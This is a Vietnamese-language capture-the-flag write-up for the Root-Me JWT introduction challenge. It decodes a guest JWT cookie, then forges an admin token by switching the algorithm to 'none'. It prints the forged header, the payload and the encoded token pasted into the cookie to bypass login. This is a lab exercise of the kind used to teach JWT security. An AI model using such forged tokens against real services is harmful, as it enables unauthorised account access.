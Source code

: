 # JSON Web Token (JWT) - Introduction

[Link](http://challenge01.root-me.org/web-serveur/ch58/)

![1](image/1.png)

- Đề cho 1 form đăng nhập, cố login kiểu gì cũng không được

- Click vào link `Login as Guest!` xem sao

![2](image/2.png)

- Cũng không có gì đặc biệt cả, `F12` lên xem có gì hơn không

![3](image/3.png)

- Để ý thì thấy có đoạn cookie này hơi đặc biệt

```
jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0In0.OnuZnYMdetcg7AWGV6WURn8CFSfas6AQej4V9M13nsk
```

- Kết hợp với đề cho thì đây là `JSON Web Token`

- Đọc thêm về `JSON Web Token`: [Link](https://jwt.io/)

- Phân tích đoạn cookie của `jwt` (decode base64) thì ta được:

```
{"typ":"JWT","alg":"HS256"}.{"username":"guest"}
```

- Theo lý thuyết thì rất khó có thể suy ra `key secret` trong trường hợp này

- Thử đổi loại mã hóa thành *none* và **encode base64** xem sao

- Payload:

```
{"typ":"JWT","alg":"none"}.{"username":"admin"}
```

- Chuyển thành:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=.eyJ1c2VybmFtZSI6ImFkbWluIn0=.OnuZnYMdetcg7AWGV6WURn8CFSfas6AQej4V9M13nsk
```

- Phần `VERIFY SIGNATURE` lấy đại của cookie cũng không ảnh hưởng gì lắm

- Giờ thì vào trình `edit cookie` để chỉnh thôi

![4](image/4.png)

![5](image/5.png)

- OK, thành công mỹ mãn
